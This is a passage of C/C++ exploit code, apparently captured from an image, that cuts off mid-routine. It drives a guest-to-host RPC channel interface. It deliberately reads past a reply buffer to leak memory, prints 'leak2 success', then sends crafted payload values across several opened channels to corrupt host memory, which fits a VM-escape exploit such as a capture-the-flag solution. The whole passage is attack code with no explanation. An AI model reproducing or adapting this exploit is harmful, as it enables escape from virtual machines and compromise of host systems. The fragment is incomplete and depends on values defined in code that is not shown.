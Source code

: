```cpp=
    channel_set_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,strlen(s2),&res);
    if(!res){
        printf("fail to set len\n");
        return;
    }
    channel_send_data(chan[0].cookie1,chan[0].cookie2,chan[0].num,strlen(s2),s2,&res);
    channel_recv_reply_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,&len,&res);
    if(!res){
        printf("fail to recv data len\n");
        return;
    }
    printf("recv len:%d\n",len);
    data = malloc(len+0x10);
    memset(data,0,len+0x10);
    for(i=0;i<len+0x10;i+=4){
        channel_recv_data(chan[0].cookie1,chan[0].cookie2,chan[0].num,i,data,&res);
    }
    printf("recv data:%s\n",data);
    channel_open(&chan[1].cookie1,&chan[1].cookie2,&chan[1].num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
    }
    channel_open(&chan[2].cookie1,&chan[2].cookie2,&chan[2].num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
    }
    channel_open(&chan[3].cookie1,&chan[3].cookie2,&chan[3].num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
    }
    channel_recv_finish2(chan[0].cookie1,chan[0].cookie2,chan[0].num,&res);
    if(!res){
        printf("fail to recv finish2\n");
        return;
    }
    channel_set_len(chan[1].cookie1,chan[1].cookie2,chan[1].num,strlen(s3),&res);
    if(!res){
        printf("fail to set len\n");
        return;
    }
    printf("leak2 success\n");
    channel_recv_reply_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,&len,&res);
    if(!res){
        printf("fail to recv data len\n");
        return;
    }
    channel_recv_finish2(chan[0].cookie1,chan[0].cookie2,chan[0].num,&res);
    if(!res){
        printf("fail to recv finish2\n");
        return;
    }
    channel_send_data(chan[1].cookie1,chan[1].cookie2,chan[1].num,8,&pay1,&res);
    channel_set_len(chan[2].cookie1,chan[2].cookie2,chan[2].num,strlen(s3),&res);
    if(!res){
        printf("fail to set len\n");
        return;
    }
    channel_set_len(chan[3].cookie1,chan[3].cookie2,chan[3].num,strlen(s3),&res);
    channel_send_data(chan[3].cookie1,chan[3].cookie2,chan[3].num,8,&pay2,&res);
    channel_send_data(chan[3].cookie1,chan[3].cookie2,chan[3].num,8,&pay3,&res);
```